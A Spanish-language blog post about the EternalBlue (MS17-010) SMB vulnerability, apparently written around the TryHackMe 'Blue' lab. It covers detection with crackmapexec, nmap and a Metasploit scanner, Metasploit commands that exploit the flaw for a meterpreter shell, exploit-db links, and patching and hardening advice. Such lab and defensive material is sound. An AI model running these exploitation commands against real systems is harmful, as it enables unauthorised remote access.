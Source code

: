 ```yaml
---
layout: single
title: Eternal Blue
excerpt: "El post aborda la preocupante vulnerabilidad asociada con EternalBlue, un exploit utilizado para propagar malware, como WannaCry. En este análisis, nos enfocamos en proporcionar una guía detallada sobre la identificación y mitigación de esta amenaza, destacando las consecuencias potencialmente devastadoras que puede tener en los sistemas.

Exploramos los métodos para identificar y expotar la vulnerabilidad de EternalBlue en un sistema, analizando sus características distintivas y comportamientos asociados. Además, el post ofrece soluciones efectivas para solventar esta vulnerabilidad, detallando pasos prácticos que los administradores y usuarios pueden seguir para proteger sus sistemas contra posibles ataques.

Al comprender la gravedad de la amenaza y adoptar medidas proactivas, los lectores podrán fortalecer la seguridad de sus sistemas, reduciendo significativamente el riesgo de explotación de EternalBlue. Este análisis también resalta la importancia de abordar de manera sistemática las vulnerabilidades conocidas, subrayando su impacto potencial y la necesidad de una respuesta rápida y efectiva para garantizar la integridad y la seguridad de los sistemas informáticos"
date: 2023-12-29
classes: wide
header:
  teaser: /assets/images/vuln_eternal_blue/Logo.png
  teaser_home_page: true
  icon: /assets/images/vuln.png
categories:
  - Vulnerabilidad
  - Windows
tags:  
  - vulnerabilidad
  - windows
  - EternalBlue
  - metasploit
  - nmap
---
```


![](/assets/images/vuln_eternal_blue/Logo.png)

# Definición

EternalBlue es un conjunto de vulnerabilidades en el software de Microsoft y, al mismo tiempo, un exploit desarrollado por la Agencia de Seguridad Nacional (NSA) como herramienta de ciberataque. Oficialmente denominado MS17-010 por Microsoft, este exploit impacta exclusivamente a los sistemas operativos Windows. Sin embargo, cualquier dispositivo que utilice el protocolo de intercambio de archivos SMBv1 (Server Message Block versión 1) se encuentra técnicamente en riesgo de ser blanco de ransomware y otros tipos de ciberataques.

Esta vulnerabilidad posibilita que un atacante obtenga acceso remoto a la máquina afectada, lo que implica un riesgo significativo para la seguridad de los sistemas. En términos más simples, EternalBlue se convierte en una herramienta peligrosa que puede ser explotada para comprometer la integridad y privacidad de los sistemas informáticos que utilizan versiones vulnerables del software de Microsoft.

# Identificación 

Existen diferentes formas de poder escanear y identificar la vulnerabilidad de eternal blue la primera forma es con 

```bash
crackmapexec smb ip
```

si este nos devuelve e **SMBv1** en true significa que puede que el host sea vulnerable a eternal blue

![](/assets/images/vuln_eternal_blue/1.png)


si deseas comprobar  comprobar con otra herramienta si es vulnerable puedes hacerlo con la herramienta de nmap con el siguiente comando

```bash
nmap -p445 -sCV --script="vuln and safe" ip
```

si la maquina es vulnerable te saldrá lo siguiente

![](/assets/images/vuln_eternal_blue/2.png)

también puedes utilizar metasploit para escanear un host y verificar si este es vulnerable

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

donde configuramos el scanner para que tome como host la ip de la victima 

```bash
set RHOSTS 10.10.174.11
```
![](/assets/images/vuln_eternal_blue/3.png)

y ponemos a correr el escáner 

```bash
run
```

![](/assets/images/vuln_eternal_blue/4.png)


# Explotación

para la explotacion utilizamos el modulo de **ms17_010_eternalblue** de metasploit ,donde cambiaremos el **rhosts** por la ip de la victima y cambiamos el **lhost** por nuestra ip

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS victim_ip
set lhost our_ip
```
y para hacer la escala de privilegios como pide tryhackme cambiamos el payload por el siguiente

```bash
set payload windows/x64/meterpreter/bind_tcp
```

![](/assets/images/vuln_eternal_blue/5.png)

ahora ejecutamos el exploit y podemos ver que obtenemos una shell con la maquina victima 

```bash
run
```
![](/assets/images/vuln_eternal_blue/6.png)


también en exploit db podemos encontrar exploit para aprovechar esta vulnerabilidad:
- [Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/42315)
- [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/42031)


# Maquinas para practicar

- [[Blue tryhackme]]


# Solventar  Eternal Blue

1. **Actualiza tu Sistema Operativo:**
	- Asegúrate de que tu sistema operativo Windows esté completamente actualizado con los últimos parches de seguridad. Puedes hacer esto a través de Windows Update.
1. **Instala el Parche de Seguridad MS17-010:**
    - El parche de seguridad MS17-010 aborda específicamente la vulnerabilidad EternalBlue. Asegúrate de haber instalado este parche en tu sistema. Puedes encontrar este parche en el sitio web oficial de Microsoft o a través de Windows Update.
3. **Utiliza un Antivirus y Software de Seguridad:**
    - Mantén un software antivirus y otras herramientas de seguridad actualizados para detectar y prevenir posibles amenazas.
4. **Firewall y Configuración de Red:**
    - Configura un firewall adecuado para bloquear el tráfico no deseado y limitar el acceso a los servicios innecesarios. Además, segmenta tu red para reducir el riesgo de propagación.
5. **Monitorización y Detección de Amenazas:**
    - Implementa herramientas de monitoreo y detección de amenazas para identificar posibles intentos de explotación de vulnerabilidades.
6. **Auditoría de Seguridad:**
    - Realiza auditorías de seguridad periódicas para identificar y abordar posibles debilidades en tu infraestructura.
7. **Considera Desactivar SMBv1:**
    - Si no es necesario, considera desactivar el protocolo SMBv1, ya que EternalBlue se aprovecha de vulnerabilidades en este protocolo. Sin embargo, ten en cuenta que desactivar SMBv1 puede afectar la compatibilidad con sistemas más antiguos que dependen de este protocolo.

# Referencias
- https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
- https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

